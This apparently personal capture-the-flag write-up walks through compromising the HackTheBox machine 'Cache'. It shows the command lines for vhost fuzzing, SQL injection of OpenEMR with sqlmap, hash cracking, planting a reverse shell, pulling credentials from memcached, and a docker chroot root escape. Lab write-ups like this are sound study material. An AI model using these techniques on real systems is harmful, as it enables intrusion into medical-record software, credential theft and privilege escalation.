





# Cache

Author: Ewaël

**Cache** is a medium HackTheBox box by ASHacker.

`nmap -sC -sV -oN nmap 10.10.10.188 -v -A` shows ports 22 and 80 are open. Let's start with the website.



Lots of text on the main page, could be useful later if I need a wordlist, but let's focus on the login page.



The verification is client side, so I have access to the source code `functionality.js`:

```javascript
$(function(){

    var error_correctPassword = false;
    var error_username = false;

    function checkCorrectPassword(){
        var Password = $("#password").val();
        if(Password != 'H@v3_fun'){
            alert("Password didn't Match");
            error_correctPassword = true;
        }
    }
    function checkCorrectUsername(){
        var Username = $("#username").val();
        if(Username != "ash"){
            alert("Username didn't Match");
            error_username = true;
        }
    }
    $("#loginform").submit(function(event) {
        /* Act on the event */
        error_correctPassword = false;
         checkCorrectPassword();
         error_username = false;
         checkCorrectUsername();


        if(error_correctPassword == false && error_username ==false){
            return true;
        }
        else{
            return false;
        }
    });

});
```

I login with `ash:H@v3_fun` creds but this really looks like a rabbit hole because there is nothing interesting and it was way too easy. Let's explore an other page:



This `cache.htb` link leads to a 404 error page which is weird considering it's the name of the box. Let's try to replace the `cache` with every words from the main page as they all refer to hacking stuff. I do this with `cewl http://10.10.10.188/index.html > words` and I start my attack with the burpsuite intruder first before switching to wfuzz because of how terribly slow this tool is:

```
$ wfuzz -H "Host: FUZZ.htb" -w words --hh=8193 --hc=400 http://10.10.10.188
...
hms
...
```

Nice! `hms.htb` seems to be the real hostname as it redirects to a 404 page `/interface/login/login.php?site=default`. I start wfuzz again on the `site` parameter before understanding I have to replace `10.10.10.188` in the redirection link too:



*Note: the page is completly broken without adding `10.10.10.188 [tab] hms.htb` in `/etc/hosts`*

Googling about how to bypass this login page I find [https://www.youtube.com/watch?v=DJSQ8Pk_7hc](https://www.youtube.com/watch?v=DJSQ8Pk_7hc) that I follow to have the request file I'll use with sqlmap:

```
GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: OpenEMR=oio3bepvg5ioqs0qvt2gdae86c; PHPSESSID=jd33efscg9m8sk8hbu44lrrjmg
Upgrade-Insecure-Requests: 1
```

Digging with sqlmap I find credentitials for the login page:

```
username: openemr_admin
password: $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.
salt: $2a$05$l2sTLIG6GTBeyBf7TAKL6A$
```

Let john crack this for me: `john --wordlist=/usr/share/wordlists/rockyou.txt hash`. Seems that `xxxxxx` is the password for `openemr_admin`, let's login:



Now that I can log, I should be able to use `OpenEMR < 5.0.1 - (Authenticated) Remote Code Execution | php/webapps/45161.py` but I can't make it work. Let's upload a reverse shell myself. I change `config.php` in [http://hms.htb/interface/main/tabs/main.php](http://hms.htb/interface/main/tabs/main.php) with the reverse shell because this code must be executed everytime the page is loaded, and I visit the default page after setting up my listener to have my shell as `www-data`.

## Privilege escalation

To begin with, I use `python3 -c 'import pty; pty.spawn("/bin/bash")'` to be able to use `su ash` with the password I found at the beginning: `H@v3_fun`. It works and I have my user flag:

`23dcde97743a826b01cdfccc057f7cba`

Let's try to be `luffy` now as he is the other user and I am pretty sure this is a required step for the root flag. I start with some enumeration which leads me to useless hashes in sql files, then I try to see if there are local services running on with `netstat -tulpn`. Indeed port 11211 is listening and after reading about it I learn the service is called `memcached` which is the box name. Let's try this with telnet because netcat is very bad at this.

```
> stats items
...
> stats cachedump 0 1
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
> get user
luffy
> get passwd
0n3_p1ec3
```

`su luffy` with `0n3_p1ec3`, and I am now `luffy`. Doing some enumeration again I see there is a docker I can now use as `luffy`:

```
$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        8 months ago        64.2MB
```

Let's use [GTFOBins](https://gtfobins.github.io) to see what's possible: `docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh`. Success! I have my root shell.

`5e6955910e3234c843c3d1f12a89ea71`
